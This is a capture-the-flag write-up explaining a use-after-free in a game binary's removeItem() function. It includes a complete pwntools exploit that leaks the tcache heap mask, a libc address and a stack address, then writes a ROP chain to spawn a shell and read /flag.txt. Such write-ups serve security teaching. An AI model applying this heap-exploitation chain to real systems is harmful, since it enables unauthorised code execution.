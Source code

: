 # Write-Up: Welcome to the Jungle!

The program has full protections:

```
pwn checksec ./jungle.bin
[*] '/root/workspace/jungle-adventure/solve/jungle.bin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

And includes a fairly modern *libc 2.39*. So we can patch it using ``pwninit`` to make sure our environment matches the target:

```sh
pwninit --bin jungle.bin --libc libc.so.6 --no-template
```

It suffers a vulnerability in the way it handles removing items. The program maintains a list of pockets in use and then marks each with either a 1 or 0. However, the *removeItem()* function just flips the integer that represents in use.

```c
void removeItem(int index) {
    if (knapsack[index] != NULL && used[index]==1) {    
        free(knapsack[index]);
        printf("<<< Removed item from pocket %d.\n", index );
    } else {
        printf("<<< Pocket %d is already empty.\n", index );
    }
    used[index]=!used[index];
}
```

Thus we can remove an item twice to allow use-after-free.

```

Enter your choice >>> 3
Select a pocket to remove an item from (1-6) >>> 1
<<< Removed item from pocket 1.

Enter your choice >>> 3
Select a pocket to remove an item from (1-6) >>> 1
<<< Pocket 1 is already empty.

Enter your choice >>> 1
Use item from which pocket (1-6) >>> 1
<<< Using item from pocket 1: TX%
<<< The TX% isn't effective against the tiger.

```

If we delete an item and then flip the used byte, we can use this to leak the heap mask used to encrypt tcache fd pointers.

```python
double_del_supplies(5)
data=use_supplies(5).lstrip(b' ').rstrip(b'\n')
heap_mask = u64(data.ljust(8, b'\x00'))
log.info(f'\tHeap Mask: {hex(heap_mask)}')    

```

Additionally, there is a handy libc leak if you name one of the items *genie*:

```python
add_supplies(1,b'Genie')
data=use_supplies(1)
p.recvuntil(b'starting point:')
libc_leak = int(p.recvline().strip(b'\n'),16)
libc.address = libc_leak - libc.sym.printf
```

After that it gets a lot trickier since in total we only get 25 turns before the game ends. With the heap mask and the use-after-free vulnerability, we can overwrite the tcache fd pointers. We can leverage this vulnerabiliy to leak the stack address by writing to the boundary of ``libc.sym.environment`` and then reading it.

```python
environ_symbol = libc.sym['environ']-24
log.info(f'\tLibc.sym.environ-24: {hex(environ_symbol)}')
addr = environ_symbol ^ heap_mask
for i in range(4,1,-1):
    del_supplies(i)
double_del_supplies(1) 
add_supplies(1,p64(addr))
add_supplies(2,b'X'*24)
add_supplies(3,b'Y'*23)
use_supplies(3)
p.recvuntil(b'<<< The ')
p.recvline()
data = p.recvline().split(b' isn')[0]
stack = u64(data.ljust(8, b'\x00'))
log.info(f'\tStack Leak: {hex(stack)}')
```

With knowledge of the stack and libc base addresses, we can just write a ROP chain to the stack and exit. There are a couple of constrain issues. For example, the address must by address & 0xf = 0x0. And we cannot free()/malloc() an already corrupted pointer.

My final script follows (also in [solve](solve)):

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)

if args.REMOTE:
   libc = ELF('./libc.so.6',checksec=False)
else:
   libc = e.libc

gs = '''
break *$rebase(0x1c61)
continue
'''


def use_supplies(idx):
    p.recvuntil(b'Enter your choice >>> ')
    p.sendline(b'1')
    p.sendline(f'{idx}'.encode())
    p.recvuntil(b':')
    data = p.recvline()
    return data

def add_supplies(idx,data):
    p.recvuntil(b'Enter your choice >>> ')
    p.sendline(b'2')
    p.sendline(f'{idx}'.encode())
    p.sendline(data)

def del_supplies(idx):
    p.recvuntil(b'Enter your choice >>> ')
    p.sendline(b'3')
    p.sendline(f'{idx}'.encode())

def double_del_supplies(idx):
    del_supplies(idx)
    del_supplies(idx)

def start():
    if args.REMOTE:
        return remote(args.HOST,args.PORT)
    elif args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    else:
        return process(e.path)

def leak_libc():
    log.info('Leaking libc base by wishing on a genie')
    add_supplies(1,b'Genie')
    data=use_supplies(1)
    p.recvuntil(b'starting point:')
    libc_leak = int(p.recvline().strip(b'\n'),16)
    libc.address = libc_leak - libc.sym.printf
    log.info(f'\tLibc Leak: {hex(libc_leak)}')
    log.info(f'\tLibc Base: {hex(libc.address)}')

def leak_heap_mask():
    log.info('Leaking heap mask from last item in tcache')
    double_del_supplies(5)
    data=use_supplies(5).lstrip(b' ').rstrip(b'\n')
    heap_mask = u64(data.ljust(8, b'\x00'))
    log.info(f'\tHeap Mask: {hex(heap_mask)}')    
    return heap_mask

def leak_stack_through_tcache_ptr(heap_mask):
    log.info('Leaking stack address by rewriting tcache fd to libc.sym.environ')
    environ_symbol = libc.sym['environ']-24
    log.info(f'\tLibc.sym.environ-24: {hex(environ_symbol)}')
    addr = environ_symbol ^ heap_mask
    for i in range(4,1,-1):
        del_supplies(i)
    double_del_supplies(1) 
    add_supplies(1,p64(addr))
    add_supplies(2,b'X'*24)
    add_supplies(3,b'Y'*23)
    use_supplies(3)
    p.recvuntil(b'<<< The ')
    p.recvline()
    data = p.recvline().split(b' isn')[0]
    stack = u64(data.ljust(8, b'\x00'))
    log.info(f'\tStack Leak: {hex(stack)}')
    return stack    

def write_rop_chain_to_stack(heap_mask,stack_leak):
    log.info('Writing ROP Chain by rewriting tcache fd to stack address')

    del_supplies(6)
    double_del_supplies(2)
    
    stack_target = stack_leak - 312 
    while (stack_target & 0xf !=0):
       stack_target = stack_target - 8

    log.info(f'\tWriting chain to {hex(stack_target)}')
    log.info(f'\tVerify alignment (stack target & 0xf) = {stack_target & 0xf}')
    addr = stack_target ^ heap_mask
    
    rl = ROP(libc)
    chain = p64(rl.find_gadget(['ret'])[0])*2
    chain += p64(rl.find_gadget(['pop rdi','ret'])[0])
    chain += p64(next(libc.search(b'/bin/sh')))
    chain += p64(libc.sym['system'])
    
    add_supplies(2,p64(addr))
    add_supplies(4,b'F'*23)
    add_supplies(6,chain)
    
def trigger_ROP_with_gameover():
    log.info('Ending game and triggering ROP Chain')
    use_supplies(1)
    use_supplies(1)
    use_supplies(1)
    use_supplies(1)
    use_supplies(1)

p = start()


leak_libc()
heap_mask = leak_heap_mask()
stack_leak = leak_stack_through_tcache_ptr(heap_mask)
write_rop_chain_to_stack(heap_mask, stack_leak)
trigger_ROP_with_gameover()

pause(1)
p.sendline(b'cat /flag.txt')
p.interactive()
```
